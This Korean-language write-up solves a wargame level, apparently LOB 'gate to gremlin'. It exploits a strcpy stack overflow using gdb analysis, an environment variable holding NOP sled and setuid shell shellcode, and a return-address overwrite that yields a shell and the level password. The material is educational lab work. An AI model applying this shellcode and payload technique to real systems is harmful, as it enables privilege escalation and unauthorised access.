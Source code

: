 Gate -> Gremlin

모든 LOB문제를 풀 때에는 bash2를 입력하여 bash를 bash2로 바꾸어 주어야 합니다. 버전이 낮아서 bash는 "\xff"를 "\x00"으로 인식을 하여 문제를 풀지 못합니다.


**gremlin.c**

```C
int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```
인자 값이 2개 이상이어야 하는 것 말고는 별다른 조건은 없습니다.<br>
gdb를 이용하여 버퍼의 크기를 구해보도록 하겠습니다. <br>
이 때 원본파일은 권한이 없어서 직접 gdb를 이용할 수 없으니, temp 디렉토리를 만들어서 그 디렉토리에 파일을 복사하여 분석 및 공격을 해보도록 하겠습니다.
<br><br>

```
[gate@localhost gate]$ mkdir temp
[gate@localhost gate]$ cp gremlin temp/
[gate@localhost gate]$ cd temp
[gate@localhost temp]$ ls
gremlin
```

디텍토리가 잘만들어지고 파일이 잘 복사된 것을 볼 수 있습니다. 이제 gdb를 이용하여 버퍼의 크기를 구해도록 하겠습니다.
<br>
```
[gate@localhost temp]$ gdb -q gremlin 
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
0x8048430 <main>:	push   %ebp
0x8048431 <main+1>:	mov    %ebp,%esp
0x8048433 <main+3>:	sub    %esp,0x100
~~~생략~~~
0x804845f <main+47>:	lea    %eax,[%ebp-256]
0x8048465 <main+53>:	push   %eax
0x8048466 <main+54>:	call   0x8048370 <strcpy>
0x804846b <main+59>:	add    %esp,8
0x804846e <main+62>:	lea    %eax,[%ebp-256]
~~~생략~~~
```
gdb에 -q 옵션을 주어 gdb를 시작할 때 나오는 여러가지 문구를 생략할 수 있습니다.<br>
`(gdb)set disassembly-flavor intel`로 인텔문법으로 어셈블리어를 볼 것 이며, `(gdb)disas main`으로 main함수를 디스어셈블리 한 것입니다.
<br><br>
여기서 중요한 부분은 main+47 과 main+54부분입니다.
strcpy함수는 입력받는 문자열의 길이를 검사하지 않기 때문에 오버플로가 발생할 수 있는 함수입니다. 또한 버퍼의 크기가 256이라는 것을 알 수 있습니다.
<br>
간단하게 스택구조를 그려보면 다음과 같이 나타낼 수 있습니다.
<br>>>>`Buffer(256) + SFP(4) + RET(4)`
<br><br>
저는 환경변수를 이용하여 공격을 하겠습니다. 환경변수에 '\x90'을 앞에 채우고 그 뒤에 쉘코드를 넣고, 환경변수의 주소를 알아낼 것 입니다.<br>
그리고 알아낸 환경변수의 주소를 RET에 넣어서 쉘코드를 실행시킬 것입니다.

```
[gate@localhost temp]$ export EGG=`python -c 'print "\x90"*100 + "\x31\xc0\xb0\x31\xcd\x80\x89\xc1\x89\xc3\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
```

이렇게 EGG라는 이름의 환경변수를 만들고 그 안에 쉘코드를 넣어줄 수 있고, 다음의 소스코드로 환경변수의 주소를 알아낼 수 있습니다.<br>
**hack.c**
```
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv)
{
        char *p;
        p = getenv(argv[1]);

        if(p != NULL)
        {
                printf("%s=%p\n",argv[1],p);
        }
        return 0;
}
```

```
[gate@localhost temp]$ ./hack EGG
EGG=0xbffffe27
[gate@localhost gate]$ ./gremlin `python -c 'print "\x90"*260 + "\x27\xfe\xff\xbf"'`
'þÿ¿
```
더미값으로 ret 전까지 260만큼 채워주고, ret에 환경변수의 주소를 넣어서 주었습니다. 주소는 리틀엔디안 방식으로 넣어주어야 합니다. 복사한 파일에 공격을 성공하였고, 원본파일에도 똑같이 공격을 하여서 성공하였습니다.

```
[gate@localhost gate]$ ./gremlin `python -c 'print "\x90"*260 + "\x27\xfe\xff\xbf"'`
'þÿ¿
bash$ my-pass
euid = 501
hello bof world
```